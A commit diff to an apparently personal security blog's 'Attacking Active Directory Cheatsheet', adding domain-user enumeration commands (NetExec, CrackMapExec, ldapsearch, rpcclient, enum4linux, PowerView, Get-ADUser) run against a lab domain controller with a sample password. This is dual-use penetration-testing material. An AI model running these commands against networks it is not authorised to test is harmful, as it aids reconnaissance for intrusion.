

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 2280 px. Shown: the whole window at 91% size, without its empty margins (228-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -72,11 +72,32 @@
 ```
 ### Domain Users Enumeration
 ```shell
+# NetExec and CrackMapExec
+nxc smb 172.16.150.10 -u john -p 'Password123!' --users
+crackmapexec smb 172.16.150.10 -u john -p 'Password123!' --users
+
 # With impacket-GetADUsers
 impacket-GetADUsers -all -dc-ip 172.16.150.10 vorkharium.com/john:'Password123!'
 
 # My custom way of creating a list of domain_users.txt list with one command
 impacket-GetADUsers -all -dc-ip 172.16.150.10 vorkharium.com/john:'Password123!' | awk 'NR>3 {print $1}' >> domain_users.txt
+
+# LDAP
+ldapsearch -x -H ldap://172.16.150.10 -D "john@vorkharium.com" -w 'Password123!' -b "dc=vorkharium,dc=com" "(objectClass=user)" sAMAccountName
+
+# RPC
+rpcclient -U 'john%Password123!' 172.16.150.10 -c "enumdomusers"
+
+# enum4linux
+enum4linux -u john -p 'Password123!' 172.16.150.10
+
+# PowerView.ps1
+Import-Module .\PowerView.ps1
+Get-NetUser
+
+# PowerShell (AD Module)
+Get-ADUser -Filter * -Property SamAccountName
+Get-ADUser -Filter * -Server 172.16.150.10 -Property SamAccountName
 
 ```
 ### Groups Enumeration
````
